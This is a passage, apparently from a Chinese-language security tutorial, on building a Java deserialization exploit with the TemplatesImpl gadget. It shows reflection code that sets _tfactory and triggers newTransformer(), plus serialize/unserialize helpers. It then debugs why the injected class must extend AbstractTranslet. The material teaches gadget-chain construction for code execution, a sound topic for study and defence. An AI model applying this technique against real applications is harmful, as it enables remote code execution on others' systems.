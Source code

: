 ```plain
    tfactoryField.setAccessible(true);
    tfactoryField.set(templates,new TransformerFactoryImpl());

    templates.newTransformer();


    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

于是我们对报错的对应方法下断点进行调试：

[![](assets/1701612311-ef507553bc7d2baf9d9969d7318dbc3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235320-39895b96-20cc-1.png)

经过调试我们发现，之前我们对应赋值的变量都能够通过，这里出现了\_auxClasses 空指针的现象，所以这里我们结合下面的 if<0 判断语句发现，这里修改\_auxClasses 并不能解决问题：

这里判断当前类的父类的值是否为一个常量，而 superClass 对应的就是我们利用的 demo 类

```plain
private static String ABSTRACT_TRANSLET
        = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
    _transletIndex = i;
}
else {
    _auxClasses.put(_class[i].getName(), _class[i]);
}
```
